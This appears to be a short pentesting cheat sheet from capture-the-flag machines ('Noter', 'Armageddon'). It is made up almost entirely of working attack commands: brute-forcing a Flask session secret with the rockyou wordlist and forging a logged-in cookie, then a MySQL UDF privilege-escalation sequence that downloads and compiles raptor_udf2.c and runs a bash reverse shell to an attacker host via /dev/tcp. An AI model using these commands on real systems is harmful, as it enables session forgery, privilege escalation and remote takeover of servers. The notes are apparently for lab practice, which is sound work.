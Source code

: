 Used in ```Noter```

```shell
# cannot import name 'json' from 'itsdangerous'
pip install Flask==2.0.1
```

```shell
# If the generated cookie does not work, note the system time in the VM.
# decode cookie
flask-unsign --decode --cookie "<cookie>"
# brute forcing secret key
flask-unsign --unsign --cookie "<cookie>" --wordlist ~/Documents/rockyou.txt --no-literal-eval
# create session 
flask-unsign --sign --cookie "{'logged_in': True, 'username': '<username>'}" --secret <keystring>
```

MySQL UDF

[resources](https://redteamnation.com/mysql-user-defined-functions/)

```shell
# attacker pc 
wget http://0xdeadbeef.info/exploits/raptor_udf2.c

# target host
cd /tmp
wget http://<attacker ip>:<attacker port>/raptor_udf2.c
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

mysql -u root -p
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
# show plugin folder path
show variables like '%plugin%';
# change plugin path
# e.g., select * from foo into dumpfile "/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so";
select * from foo into dumpfile "<plugin folder path>/raptor_udf2.so";
create function do_system returns integer soname 'raptor_udf2.so';
# check loading
select * from mysql.func;
# chagne reverse shell command
select do_system('echo ''/bin/bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1'' > /tmp/revshell.sh && chmod 777 /tmp/revshell.sh && /bin/bash /tmp/revshell.sh');
```

Used in `Armageddon`

```shell
# In web shell (non-tty-shell) we need to run a single query from the command line.
mysql -u "<username>" -h "localhost" "<passowrd>" "<database>" -e "<sql command>"
```
